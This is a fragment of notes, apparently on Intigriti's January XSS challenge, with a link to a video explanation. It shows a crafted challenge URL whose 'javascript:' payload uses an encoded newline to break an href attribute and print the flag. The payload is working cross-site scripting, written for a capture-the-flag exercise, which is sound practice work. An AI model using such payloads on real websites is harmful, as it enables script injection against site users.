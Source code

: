 - Intigriti's January XSS Challenge Explained (youtube)

==Split href attribute `<a href="r=*";==
```url
javascript.challenge-0121.intigtiti.io/?r=Javascript:alert(flag.innerHTML)/%0aid=origin

%0a -> encoded url for new line (burp decoder used!)
```
